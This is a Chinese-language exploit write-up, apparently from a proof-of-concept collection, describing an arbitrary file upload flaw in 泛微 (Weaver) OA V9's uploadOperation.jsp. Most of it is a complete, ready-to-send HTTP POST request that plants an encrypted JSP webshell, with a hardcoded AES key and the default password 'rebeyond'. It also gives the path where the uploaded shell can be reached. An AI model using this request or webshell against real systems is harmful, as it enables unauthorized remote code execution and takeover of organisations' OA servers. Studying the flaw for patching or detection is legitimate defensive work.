



# 泛微OA uploadOperation.jsp 任意文件上传

## 漏洞描述

```
泛微OA V9 存在文件上传接口导致任意文件上传
```

## 漏洞影响

```
泛微OA V9
```

## 漏洞复现

漏洞位于: /page/exportImport/uploadOperation.jsp文件中

Jsp流程大概是:判断请求是否是multipart请求,然就没有了,直接上传了,啊哈哈哈哈哈

重点关注File file=new File(savepath+filename),

Filename参数,是前台可控的,并且没有做任何过滤限制



利用非常简单,只要对着

/page/exportImport/uploadOperation.jsp

来一个multipartRequest就可以



然后请求 然后请求路径:

page/exportImport/fileTransfer/1.jsp



请求包

```bash
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 397
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Edg/89.0.774.68
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6XgyjB6SeCArD3Hc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
dnt: 1
x-forwarded-for: 127.0.0.1
Connection: close

------WebKitFormBoundary6XgyjB6SeCArD3Hc
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundary6XgyjB6SeCArD3Hc--
```

地址: /page/exportImport/fileTransfer/test.jsp

默认密码 rebeyond

